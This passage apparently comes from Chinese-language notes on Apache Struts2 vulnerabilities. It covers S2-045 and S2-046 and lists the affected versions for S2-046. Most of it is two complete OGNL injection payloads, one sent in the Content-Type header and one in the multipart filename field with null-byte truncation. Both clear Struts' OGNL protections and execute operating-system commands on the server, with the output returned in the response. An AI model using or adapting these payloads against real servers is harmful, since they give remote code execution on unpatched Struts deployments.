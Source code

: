 ```java
Content-Type: %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}.multipart/form-data
```

![图 7](7.png)

## s2-046

[参考](https://xz.aliyun.com/t/221)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

类似 s2-045，这次修改的是 `Content-Disposition` 的 `filename` 字段。最后需要通过 `\x00b` 来截断 payload。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b
```
